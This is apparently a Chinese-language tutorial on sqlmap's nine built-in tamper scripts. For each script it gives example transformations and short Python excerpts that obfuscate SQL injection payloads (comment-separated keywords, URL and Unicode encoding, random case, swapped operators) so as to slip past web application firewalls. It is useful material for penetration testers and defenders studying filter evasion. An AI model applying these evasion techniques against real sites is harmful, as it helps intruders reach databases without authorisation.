 # sqlmap使用tamper脚本有较大机会绕过WAF，获得更高的效率
## sqlmap 0.9中内置9个tamper脚本

## between.py
 - between.py 的作用是替换>(大于号)，for example：  A > B 变成 A NOT BETWEEN 0 AND B
```sh
elif payload[i] == ">" and not doublequote and not quote:
	retVal += " " if i > 0 and not payload[i-1].isspace() else ""
	retVal += "NOT BETWEEN 0 AND"
	retVal += " " if i < len(payload) - 1 and not payload[i+1].isspace() else ""
```
## charencode.py
 - d对payloads进行url编码  Example: 'SELECT FIELD FROM%20TABLE' becomes '%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45'
```sh
while i < len(payload):
	if payload[i] == '%' and (i < len(payload) - 2) and payload[i+1] in string.hexdigits and payload[i+2] in string.hexdigits:
		retVal += payload[i:i+3]
		i += 3
	else:
		retVal += '%%%X' % ord(payload[i])
		i += 1
```

## charunicodeencode.py
 - payloads unicode编码 Example: 'SELECT FIELD%20FROM TABLE' becomes '%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u00
 20%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045'
```sh
while i < len(payload):
	if payload[i] == '%' and (i < len(payload) - 2) and payload[i+1] in string.hexdigits and payload[i+2] in string.hexdigits:
		retVal += "%%u00%s" % payload[i+1:i+3]
		i += 3
	else:
		retVal += '%%u00%X' % ord(payload[i])
		i += 1
```
## ifnull2ifisnull.py
 - Example: 'IFNULL(1, 2)' becomes 'IF(ISNULL(1), 2, 1)'  ISNULL()值为NULL返回1，否则返回0.
```sh
if comma and end:
	A = payload[index + len("IFNULL("):comma]
	B = payload[comma + 1:end]
	newVal = "IF(ISNULL(%s),%s,%s)" % (A, B, A)
	payload = payload[:index] + newVal + payload[end+1:]
```
## randomcase.py
 - 随机大小写替换  Example: 'INSERT' might become 'InsERt'
```sh
if payload:
	for match in re.finditer(r"[A-Za-z_]+", retVal):
		word = match.group()

		if word.upper() in kb.keywords:
			newWord = str()

			for i in xrange(len(word)):
				newWord += word[i].upper() if randomRange(0, 1) else word[i].lower()
```

## randomcomments.py
 - 用/**/分隔 Example: 'INSERT' becomes 'IN/**/S/**/ERT'
```sh
for i in xrange(1, len(word) - 1):
	newWord += "%s%s" % ("/**/" if randomRange(0, 1) else "", word[i])
```

## space2comment.py
 - 用/**/替换空格  Example: 'SELECT id FROM users' becomes 'SELECT/**/id/**/FROM/**/users'
```sh
elif payload[i]==" " and not doublequote and not quote:
	retVal += "/**/"
```
## space2plus.py
 - 用+替换空格 Example: 'SELECT id FROM users' becomes 'SELECT+id+FROM+users'
```sh
elif payload[i]==" " and not doublequote and not quote:
	retVal += "+"
```

## space2randomblank.py
 - 从字符集中blanks = ['\r', '\n', '\t']随机选择一个替换空格   Example: 'SELECT id FROM users' becomes 'SELECT\rid\tFROM\nusers'
```sh
elif payload[i]==" " and not doublequote and not quote:
	retVal += random.choice(blanks)
```
